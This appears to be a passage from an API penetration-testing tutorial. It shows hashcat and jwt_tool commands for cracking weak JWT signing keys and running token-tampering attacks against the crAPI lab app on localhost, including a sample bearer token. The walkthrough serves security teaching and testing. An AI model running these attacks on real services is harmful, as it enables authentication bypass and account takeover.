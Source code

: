 ![JWT Token](/assets/img/posts/api-pentest/jwt_token_decoded.png)

For the JWT token, some vulnerabilities are known. 
One of this is a weak key used for the signature. To crack this, you can use hashcat:
```bash
hashcat -a 0 -m 16500 <JWT_TOKEN> <WORDLIST>
```

Or you can use another tool, [jwt_tool](https://github.com/ticarpi/jwt_tool). For the analysis (like using jwt.io), you can use the following command:
```bash
jwt_tool <TOKEN>
```

And, also, you can perform several attacks by using the following command:
```bash
jwt_tool -t URL -rh 'Authorization: Bearer TOKEN' -M at
```

In the case of the crAPI application, we get the jwt_token from Burp request and put in the command:
```bash
jwt_tool -t http://localhost:8888/identity/api/v2/user/dashboard -rh 'Authorization: Bearer eyJhbGciOiJSUzI1NiJ9.eyJzdWIiOiJ0ZXN0QHRlc3QuY29tIiwicm9sZSI6InVzZXIiLCJpYXQiOjE2ODEwMzQwMDcsImV4cCI6MTY4MTYzODgwN30.sHarqn3O1wx3QpUsymoOev1NtkMUgc08FFLE96scPWyLS8RMqL6MpH9KdDeekbIDqkf4KEH10iLGid_MVo5XA113G3lhvxZZkObW6lzErBrMOsdjfgU9WTBICdmhJk2_GG7EJmCXxpFKx1_n83OjcZZxzmH3dzIQiWRTBMBPrfouNgEuYDuT9hjoIzlAsIrvP2QKsBGbl-tn3F3nOd6pra2LsoW1RB4HvkzqjKOUdb6vVmMxc78s-2XnTRL11wpYAoN8khkQuLQKmt000iwIlH289mThcapjJKrZZNzFz3JrYgEzOMbOU_oNpZKfWzNmdBAXpkSsMEIsLVOfHZiLNg' -M at -cv "Test"
```
